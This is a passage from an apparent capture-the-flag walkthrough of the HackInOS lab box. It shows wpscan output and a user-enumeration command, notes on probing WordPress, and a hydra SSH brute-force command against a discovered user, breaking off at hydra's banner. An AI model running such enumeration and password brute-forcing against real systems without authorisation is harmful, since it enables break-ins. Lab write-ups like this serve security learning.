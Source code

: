 
[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=============================================================================================================================================================================================================> (21 / 21) 100.00% Time: 00:00:00

[i] No Config Backups Found.


[+] Finished: Sun Apr 21 19:33:33 2019
[+] Requests Done: 40
[+] Cached Requests: 8
[+] Data Sent: 6.032 KB
[+] Data Received: 18.762 KB
[+] Memory used: 138.477 MB
[+] Elapsed time: 00:00:01
{{< / highlight >}}

And here's our wordpress user:

{{< highlight markdown >}}
root@kali:~# wpscan --url http://target:8000/ --wp-content-dir / --enumerate u 

...snip...

[i] User(s) Identified:

[+] handsome_container
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

{{< / highlight >}}

Surely, a username like that is some kind of clue.I started poking wordpress manually, and tried to register, but registration was not enabled. I also tried to post replies to existing comments to see if we could use that for the CSRF vulnerability wpscan found, but although my posts seemed successful, they were not visible, which means that CSRF would not work, since it needs a page load to occur for the CSRF to run. While it is already in the wpscan output above, I think it's worthwhile to point out [this blog post](https://blog.ripstech.com/2019/wordpress-csrf-to-rce/); it's an excellent write up.SSH

I didn't feel like we were making progress with the HTTP based attacks, so I decided to switch gears and try SSH.

{{< figure src="/content/images/2019/04/HackInOS-01-1.png" caption="hummingbirdscyber" >}}

The box boots to a login screen that shows a valid user. I decided to plug this user into hydra and attack SSH, and it payed off after just a few seconds.

{{< highlight markdown >}}
root@kali:~# hydra -l hummingbirdscyber -P /usr/share/wordlists/rockyou.txt -t4 target ssh 
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
